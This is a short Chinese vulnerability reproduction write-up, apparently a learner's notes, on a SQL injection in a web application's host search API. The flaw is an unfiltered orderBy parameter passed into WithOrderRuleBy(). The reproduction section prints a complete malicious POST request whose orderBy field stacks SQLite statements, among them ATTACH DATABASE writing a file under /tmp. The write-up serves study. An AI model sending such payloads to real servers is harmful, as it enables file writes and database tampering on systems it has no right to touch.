





# 一、源码分析



**如上图，最终问题发生在WithOrderRuleBy()函数中，其将*未过滤*的orderBy直接复制到格式成为一个注入点化字符串中,从而使orderBy**
# 二、漏洞复现
## （一）获取session
* 如图，首先使用默认账户登录，在BP上抓包查看session字段。

## （二）发送恶意POST请求
* 发送以下恶意请求
```
POST /api/v1/hosts/command/search HTTP/1.1
Host: 192.168.240.130:10086
Accept-Language: zh
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Cookie: psession=dd243959-4a5a-4521-9c01-dcb0d2b92611
Connection: close
Content-Type: application/json
Content-Length: 239

{
  "page":1,
  "pageSize":10,
  "groupID":0,
  "orderBy":"3;ATTACH DATABASE '/tmp/randstr.txt' AS test;create TABLE test.exp (data text);create TABLE test.exp (data text);drop table test.exp;",
  "order":"ascending",
  "name":"a"
}
```
* 其中的Host、psession字段要确认正确。
* 如下图，漏洞复现成功


# 三、总结
1. 初步认识了SQL注入漏洞的形成过程。
2. 初步了解了BP的使用。

2026/3/19-17:59